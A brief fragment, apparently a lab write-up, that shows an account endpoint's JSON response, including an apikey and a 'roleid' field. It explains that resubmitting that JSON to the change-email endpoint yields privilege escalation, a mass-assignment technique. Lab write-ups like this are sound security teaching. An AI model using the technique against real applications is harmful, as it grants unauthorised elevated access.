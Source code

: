 when you 
`POST /my-account/change-email`

you'll receive the following **RESPONSE**: 
```

HTTP/2 302 Found
Location: /my-account
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 126

{
  "username": "wiener",
  "email": "wiener@normal-user.net",
  "apikey": "fL0pxqfRo2QRMtgNFj2tGwY4ZTxloDjx",
  "roleid": 1
}
```

paste the json into the body of the `POST /my-account/change-email` and you have privésque *chefs kiss*

